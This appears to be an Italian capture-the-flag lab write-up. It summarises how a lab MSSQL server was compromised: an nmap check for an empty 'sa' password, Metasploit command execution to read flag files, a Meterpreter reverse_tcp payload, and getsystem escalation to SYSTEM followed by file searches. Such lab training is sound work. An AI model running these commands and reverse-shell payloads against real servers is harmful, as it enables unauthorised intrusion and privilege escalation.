 Ecco un riepilogo in Markdown di tutti i passaggi che abbiamo eseguito:


# Riepilogo Lab MSSQL CTF

## 1. Scansione iniziale con Nmap
- Comando:
  ```bash
  nmap -p1433 --script ms-sql-empty-password target.ine.local


* Risultato:

  * Utente `sa` con **password vuota** → login SQL Server riuscito.

## 2. Recupero Flag 1 con Metasploit (`mssql_exec`)

* Caricamento modulo:

  ```bash
  use auxiliary/admin/mssql/mssql_exec
  set RHOSTS target.ine.local
  set RPORT 1433
  set USERNAME sa
  set PASSWORD ""
  set DBNAME master
  ```
* Elenco file “flag” e lettura in un colpo solo:

  ```bash
  set CMD cmd.exe /c "type C:\flag1.txt & type C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt"
  run
  ```
* Output:

  * Contenuto di `C:\flag1.txt`
  * Contenuto di `C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt`

## 3. Privilege Escalation a SYSTEM

* **Metodo Meterpreter + getsystem**:
  1\.

  ```bash
  use exploit/windows/mssql/mssql_payload
  set PAYLOAD windows/x64/meterpreter/reverse_tcp
  set LHOST <tuo_IP_Kali>
  set LPORT 4444
  run
  ```

  2. ```bash
     sessions -i <ID_sessione>
     meterpreter > getsystem
     meterpreter > shell
     ```
* Ora abbiamo permessi **NT AUTHORITY\SYSTEM**.

## 4. Recupero Flag 2 (Windows config)

* Dal prompt Windows (`cmd.exe` in sessione SYSTEM):

  ```bat
  C:\> findstr /S /I /P "flag" "C:\Windows\System32\config\*.*"
  ```
* Lettura file trovato:

  ```bat
  C:\> type "C:\Windows\System32\config\<nome_file_trovato>"
  ```

## 5. Recupero Flag 4 (Administrator)

* Sempre dal prompt SYSTEM:

  ```bat
  C:\> findstr /S /I /P "flag" "C:\Users\Administrator\*.*"
  ```
* Lettura file trovato:

  ```bat
  C:\> type "C:\Users\Administrator\<percorso_file_trovato>"
  ```

---

Con questi passaggi abbiamo:

1. **Identificato** `sa` senza password
2. **Recuperato** Flag 1
3. **Escalato** a SYSTEM
4. **Cercato** e **letto** Flag 2 nella cartella di configurazione
5. **Cercato** e **letto** Flag 4 nella cartella Administrator

